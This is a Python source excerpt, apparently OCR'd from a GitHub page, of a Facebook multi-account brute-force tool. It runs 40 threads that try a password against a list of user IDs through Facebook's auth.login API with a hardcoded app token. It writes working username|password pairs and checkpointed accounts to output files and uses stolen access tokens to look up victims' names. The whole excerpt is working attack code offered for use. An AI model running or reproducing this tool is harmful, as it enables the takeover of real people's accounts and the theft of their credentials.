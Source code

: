 	try:
		file = open((idlist), "r")
		jalan('\033[1;91m[✺] \033[1;92mStart \033[1;97m...')
		for x in range(40):
			zedd = threading.Thread(target=scrak, args=())
			zedd.start()
			threads.append(zedd)
		for zedd in threads:
			zedd.join()
	except IOError:
		print ("\033[1;91m[!] File not found")
		raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
		menu_hack()
		
def scrak():
	global berhasil,cekpoint,gagal,back,up
	try:
		os.mkdir('out')
	except OSError:
		pass
	try:
		buka = open(idlist, "r")
		up = buka.read().split()
		while file:
			username = file.readline().strip()
			url = "https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(username)+"&locale=en_US&password="+(passw)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6"
			data = urllib.urlopen(url)
			mpsh = json.load(data)
			if back == (len(up)):
				break
			if 'access_token' in mpsh:
				bisa = open("out/mbf_ok.txt", "w")
				bisa.write(username+"|"+passw+"\n")
				bisa.close()
				x = requests.get("https://graph.facebook.com/"+username+"?access_token="+mpsh['access_token'])
				z = json.loads(x.text)
				berhasil.append("\033[1;97m[ \033[1;92mOK✓\033[1;97m ] "+username+"|" +passw+" =>"+z['name'])
			elif 'www.facebook.com' in mpsh["error_msg"]:
				cek = open("out/mbf_cp.txt", "w")
				cek.write(username+"|"+passw+"\n")
				cek.close()
				cekpoint.append("\033[1;97m[ \033[1;93mCP✚\033[1;97m ] "+username+"|" +passw)
			else:
				gagal.append(username)
				back +=1
			sys.stdout.write('\r\033[1;91m[\033[1;96m✸\033[1;91m] \033[1;92mCrack    \033[1;91m:\033[1;97m '+str(back)+' \033[1;96m>\033[1;97m '+str(len(up))+' =>\033[1;92mLive\033[1;91m:\033[1;96m'+str(len(berhasil))+' \033[1;97m=>\033[1;93mCheck\033[1;91m:\033[1;96m'+str(len(cekpoint)));sys.stdout.flush()
	except IOError:
		print"\n\033[1;91m[!] Sleep"
		time.sleep(1)
	except requests.exceptions.ConnectionError:
		print"\033[1;91m[✖] No connection"
		
